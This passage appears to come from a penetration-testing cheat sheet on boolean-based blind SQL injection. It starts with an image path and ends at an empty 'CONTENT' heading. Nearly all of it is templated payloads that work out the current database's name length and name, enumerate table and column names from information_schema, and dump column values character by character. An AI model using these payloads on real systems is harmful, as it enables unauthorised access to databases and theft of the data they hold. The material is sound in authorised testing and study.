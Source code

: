 - should NOT return value

### 16.2.2	ENUMERATE DATABASE

#### 16.2.2.1	LENGTH

```
' OR LENGTH(DATABASE())='<LENGTH>
```

#### 16.2.2.2	NAME

```
' OR SUBSTRING(DATABASE(),<INDEX>,1)='<CHAR>
```

### 16.2.3	ENUMERATE TABLE(S)

#### 16.2.3.1	LENGTH

```
' OR LENGTH((SELECT table_name from information_schema.tables where table_schema=DATABASE() limit 0,1))='<LENGTH>
```

#### 16.2.3.2	NAME

```
' OR SUBSTRING((SELECT table_name from information_schema.tables where table_schema=DATABASE() limit 0,1),<INDEX>,1)='<CHAR>
```

### 16.2.4	ENUMERATE COLUMN(S)

#### 16.2.4.1	LENGTH

```
' OR LENGTH((SELECT column_name from information_schema.columns where table_name='data' limit 0,1))='<LENGTH>
```

#### 16.2.4.2	NAME

```
' OR SUBSTRING((SELECT column_name from information_schema.columns where table_name='data' limit 0,1),<INDEX>,1)='<CHAR>
```

### 16.2.5	DUMP DATA

#### 16.2.5.1	LENGTH

```
' OR LENGTH((SELECT <COLUMN> FROM <TABLE> limit 0,1))='<LENGTH>
```

#### 16.2.5.2	CONTENT
